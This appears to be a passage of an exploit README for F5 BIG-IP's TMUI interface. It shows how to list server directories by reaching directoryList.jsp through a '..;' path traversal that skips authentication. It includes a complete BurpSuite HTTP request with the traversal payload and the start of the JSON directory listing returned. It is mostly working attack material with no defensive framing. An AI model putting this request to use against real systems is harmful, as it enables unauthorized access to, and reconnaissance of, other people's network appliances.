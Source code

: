 ## 0x00 List File

`/tmui/locallb/workspace/directoryList.jsp`

Example:

`directoryPath=/usr/local/www/`

![](./directoryList.png)

#### BurpSuite Request
```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=65ACC6C79B31335D71E4F432DB39EA50
Connection: close
Upgrade-Insecure-Requests: 1


```

#### BurpSuite Response

```
      {
        "dir": "tmui",
        "children": [
          {
            "dir": "WEB-INF",
            "children": [
              {
                "dir": "classes",
                "children": [
                  {
                    "dir": "org",
                    "children": [
                      {
                        "dir": "apache",
                        "children": [
                          {
                            "dir": "jsp",
```